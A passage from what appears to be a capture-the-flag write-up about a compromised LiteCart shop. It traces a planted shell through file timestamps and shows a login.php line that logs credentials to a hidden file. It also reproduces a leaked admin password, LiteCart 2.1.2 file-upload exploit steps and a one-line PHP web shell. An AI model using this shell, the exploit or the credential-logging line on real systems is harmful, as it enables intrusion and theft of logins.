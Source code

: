 This probably means that the website was compromised by an attacker and maybe source files were modified:
```
find . -type f -printf "%T+ %p\n" | sort
```
```
2020-05-28+08:05:57.0000000000 ./.sh.php
2020-09-03+13:49:16.0000000000 ./includes/library/lib_user.inc.php
2020-09-03+13:50:34.0000000000 ./admin/login.php
```

The shell file was placed in May 2020 and in September 2020, the files _lib_user.inc.php_ and _login.php_ were modified.
In _login.php_ another file is referenced:
```
(...)
if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password
(...)
```

This file can be found on the web page on _shop/admin/.log2301c9430d8593ae.txt_ and it contains credentials:
```
User: admin Passwd: theNextGenSt0r3!~
```

The credentials work on the admin login portal on _shop/admin/login.php_.

### Exploiting LiteCart

In the bottom left it shows that **LiteCart version 2.1.2** is running.
Lets search for public vulnerabilities:
```
searchsploit litecart

LiteCart 2.1.2 - Arbitrary File Upload
```

The exploit can be recreated as follows:
1. Browse to _?app=vqmods&doc=vqmods_
2. Upload a PHP file but with the Content-Type _application/xml_
3. Browse to _../vqmod/xml/_ where the PHP file is uploaded

Creating PHP shell file:
```
<?php system($_REQUEST['cmd']); ?>
```

Uploading _shell.php_ on _?app=vqmods&doc=vqmods_:

![Uploading PHP shell](compromised_web-1.png)
